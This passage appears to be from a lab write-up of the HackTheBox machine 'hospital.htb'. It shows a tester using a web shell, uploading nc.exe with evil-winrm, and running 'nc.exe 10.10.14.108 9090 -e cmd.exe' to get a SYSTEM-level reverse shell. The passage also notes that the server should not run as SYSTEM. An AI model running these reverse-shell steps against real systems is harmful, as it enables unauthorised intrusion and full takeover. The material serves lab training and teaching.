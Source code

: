The tester open the browser to [https://hospital.htb/predator.php](https://hospital.htb/predator.php)

![](/assets/attachments/Pasted%20image%2020240611162334.png)

The web server is running as SYSTEM, it should be using a dedicate system account with restricted privileges.

To obtain a shell, the tester uploaded `nc.exe` using `evil-winrm`.
```
*Evil-WinRM* PS C:\xampp\htdocs> upload Public/nc.exe

Info: Uploading /home/kali/Public/nc.exe to C:\xampp\htdocs\nc.exe

Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!
```

The previous payload of `nc.exe 10.10.14.108 9090 -e cmd.exe` was executed using the web shell.

![](/assets/attachments/Pasted%20image%2020240611162654.png)

```
$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.166.255] 6308
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>whoami
whoami
nt authority\system
```
